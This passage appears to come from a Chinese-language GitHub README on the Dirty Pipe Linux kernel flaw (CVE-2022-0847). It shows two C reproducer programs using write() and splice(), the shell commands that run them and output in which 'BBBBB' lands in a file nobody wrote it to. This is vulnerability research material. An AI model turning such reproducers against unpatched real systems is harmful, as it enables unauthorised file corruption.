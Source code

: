 # CVE-2022-0847-DirtyPipe-Exploits

## 目錄
- 漏洞簡介
- 防禦方法
- case studies
- POC
- 參考資料
# POC
## My rig:
* Linux Kernel 5.8.1(vulnerable)
* Ubuntu 20.04 LTS desktop-amd64
* virtula box 6.1
## Reproducing the bug
原作者Max Kellermann提供了兩隻c程式來重現這個kernel的bug。我加了sleep來避免檔案成長太快，並且把"AAAAA"改成"AAAA\n"。
- 程式1(writer)  
```c
#include <unistd.h>
int main(int argc, char **argv) {
  for (;;) {write(1, "AAAA\n", 5);sleep(1);}
  
}
```
這隻程式會不斷的把"AAAA\n"送到stdout。  
如果我們執行
```sh
./writer >foo
```
則可以不斷的把AAAA寫到foo。
- 程式2(splicer)
```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
int main(int argc, char **argv) {
  for (;;) {
    splice(0, 0, 1, 0, 2, 0);
    //ssize_t splice(int fd_in, off64_t *off_in, int fd_out,off64_t *off_out, size_t len, unsigned int flags);
    //splice 2 bytes from stdin at offset 0, to stdout at offset 0
    write(1, "BBBBB", 5);
    sleep(1);
  }
}
```
這隻程式會不斷的做:
1. 用splice()從stdin拿2個byte放進stdout
2. 把"BBBBB"放進stdout。  
如果我們執行
```sh
./splicer <foo |cat >/dev/null
```
則會把foo的內容讀取進stdin給這隻程式，然後再cat這隻程式的stdout，並丟到黑洞裡。  
### **執行結果**
對於這兩隻c程式，我們觀察到**不同的執行順序伴隨不同的結果**。
1. 先執行第一隻程式，再同時執行第二隻c程式後，結果看起來正確。foo裡面只有A。
2. 先touch foo，再執行第二隻c程式，再同時執行第一隻c程式後，foo會看起來像這樣：
```AAAA
AAAA
BBBBBBBBBBBBBBBBBBB
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA

```
很明顯kernel存在bug，因為並沒有人去把BBBBB寫入foo，但foo卻出現了BBBBB。



